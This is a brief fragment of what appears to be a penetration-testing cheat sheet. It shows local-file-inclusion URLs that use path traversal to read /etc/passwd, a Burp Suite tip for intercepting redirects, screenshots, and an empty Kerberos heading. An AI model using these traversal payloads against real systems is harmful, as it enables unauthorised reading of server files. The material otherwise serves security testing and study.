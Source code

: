     ```bash
    http://$ip/index.php?page=/etc/passwd
    http://$ip/index.php?file=../../../../etc/passwd
    ```

## if a page redirects to another, we can use burp to stop

```bash
Proxy -> Options -> Match and Replace
```

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png)

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png)

## kerberos (88):
